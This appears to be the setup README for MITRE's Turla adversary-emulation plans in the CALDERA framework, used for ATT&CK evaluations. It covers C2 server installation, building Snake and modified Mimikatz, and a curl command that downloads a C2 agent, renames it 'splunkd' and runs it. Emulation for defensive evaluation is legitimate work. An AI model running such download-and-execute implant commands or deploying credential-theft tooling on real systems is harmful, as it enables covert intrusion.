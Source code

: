# OVERVIEW

The Turla port contains two adversary profiles for each of the executed scenarios in MITRE Engenuity's ATT&CK® Evaluations: Enterprise - Round 5. **Follow the setup instructions below** and then navigate to the scenario-specific setup guides for the profile you would like to execute:

- [Carbon Scenario](Carbon_Scenario.md)
- [Snake Scenario](Snake_Scenario.md)

Information about each scenario can be found [here](turla_Emulation_Plan_README.md).

# DEPENDENCIES

## CALDERA C2 Server
- Linux/Mac OS, 64-bit
- git commandline installed
- python3.8+ with pip3
- golang 1.17+
    - required for dynamic agent compilation
- Recommended hardware is 8GB+ RAM and 2+ CPUs

## Attacker Machine Dependencies
- Linux OS, 64-bit 
    - Kali recommended
    - Can be the same machine as the CALDERA C2 server
- Command-line tools
    - xfreerdp
    - xdotools
    - curl
    - urllib3
    - ncat (by Nmap)

# SETUP

## Download and Install CALDERA
Run the following on a Linux/Mac machine of your choice. This machine will act as your C2 server, or the "attacker" host. For the purposes of this walkthrough, the C2 server will have an IP address of `176.59.15.33`. 
```
git clone --depth 1 https://github.com/mitre/caldera.git --recursive
cd caldera
git checkout master && git pull
cp conf/default.yml conf/local.yml
cd plugins/emu
git checkout master && git pull
```

Add the `emu` plugin to your `conf/local.yml` configuration file. Feel free to enable or disable other plugins
by adding/removing them from the configuration file. You can also configure your user accounts and credentials if needed.
```
vi conf/local.yml
```

Download pip dependencies.
```
pip3 install --upgrade setuptools
pip3 install --upgrade pip
pip3 install -r requirements.txt
```

Download required payloads for `emu` plugin.
```
# from caldera/plugins/emu directory 

git checkout master && git pull
./download_payloads.sh
```

Run your C2 server from the caldera directory. This will unzip encrypted executables throughout the `adversary-emulation-library` and ingest its emulation plans.
```
# from caldera directory

python3 server.py --insecure --log DEBUG
```


## Compile Snake & Mimikatz Binaries

### Snake

:exclamation: Snake has not been included in this binaries.zip. Please visit the following
resources for building Snake and its components:
- [Snake Installer Build](README.md#build)
- [Snake Build Script](buildall.ps1)

### Mimikatz

:exclamation: Mimikatz must be modified and compiled according to these [instructions](https://github.com/attackevals/turla/tree/public-release/Resources/Mimikatz#adjustments-made-to-mimikatz-pth-function). 

## Launch the Kali Agent

RDP to `176.59.15.33`, the Kali attacker host, as user `dev` with password `DevPass12345`. Launch the Kali agent by running the following command. You may need to modify the command so the server value matches your attacker host's IP address. 

:exclamation: Keep this RDP open as this will be leveraged by xfreerdp in the executed Caldera operation. Once the operation has been started, avoid interacting with the RDP to Kali. Clicking or switching windows within the Kali RDP will interfere with the user activity that is automated through Caldera.

```
cd /home/dev/caldera/plugins/emu/data/adversary-emulation-plans/turla/Resources/control_server;
server="http://176.59.15.33:8888";
curl -s -X POST -H "file:sandcat.go" -H "platform:linux" $server/file/download > splunkd;
chmod +x splunkd;
./splunkd -server $server -group kali -v
```

Log into CALDERA's web GUI by accessing your C2 server address in a web browser (Chrome recommended), and using your credentials (default username is `red`, default password is `admin`).

On the left sidebar, under "Campaigns", click "agents" and confirm that you see the Kali agent beaconing in. 

For best results, make sure you don't have other agents currently beaconing in.
